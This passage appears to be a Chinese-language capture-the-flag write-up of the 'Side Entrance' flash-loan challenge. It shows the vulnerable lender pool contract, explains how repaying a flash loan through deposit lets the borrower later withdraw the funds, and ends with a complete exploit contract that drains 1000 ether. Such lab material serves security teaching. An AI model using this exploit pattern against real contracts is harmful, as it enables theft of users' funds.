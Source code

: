 ```js
        }  
        emit Deposit(msg.sender, msg.value);  //更新发送者地址的余额并发出存款事件  
    }  

    function withdraw() external {  
        uint256 amount = balances\[msg.sender\];  

        delete balances\[msg.sender\];  
        emit Withdraw(msg.sender, amount);  

        SafeTransferLib.safeTransferETH(msg.sender, amount);  // 使用SafeTransferLib安全提现以太币  
    }  
    //用户可以使用此功能发起提现。它检索发送方的当前余额，删除用户的余额记录，发出提现事件，并将全部 ETH 金额转回发送方。  

    function flashLoan(uint256 amount) external {  
        uint256 balanceBefore = address(this).balance;  

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();  

        if (address(this).balance < balanceBefore)  // 如果合约余额小于执行借贷前的余额，表示还款失败，触发还款失败错误  
            revert RepayFailed();  
    }  
}
```

FlashLoan()是具有借和还的功能,并且都是通过transfer来实现的,并没有进行特别的校验,只通过address(this).balance < balanceBefore 来检查.但是SideEntranceLenderPool还提供了存入功能,并且没有做任何的限制,也就是说,可以通过SideEntranceLenderPool合约提供的deposit来绕过FlanshLoan()的验证,然后在进行withdraw取钱

那么我们就可以 先存入钱,再取出。（正常流程是通过闪电贷进行取出(借)和存入(还)）

也就是说 在闪电贷时候 原本是偿还的 但是我们使用存款,那么是存款我们就可以自己取出来。打到掏空Pool的效果

Exp:

```js
contract SideEntranceHacker is IFlashLoanEtherReceiver {  

    SideEntranceLenderPool pool;  

    constructor(address instance) {  
        pool = SideEntranceLenderPool(instance);  
    }  

    function exploit() external payable {  
        pool.flashLoan(1000 ether);  
        pool.withdraw();  
        payable(tx.origin).transfer(1000 ether);  
    }  

    function execute() external payable {  
        pool.deposit{value: 1000 ether}();  
    }  

    receive() external payable {}  
}
```
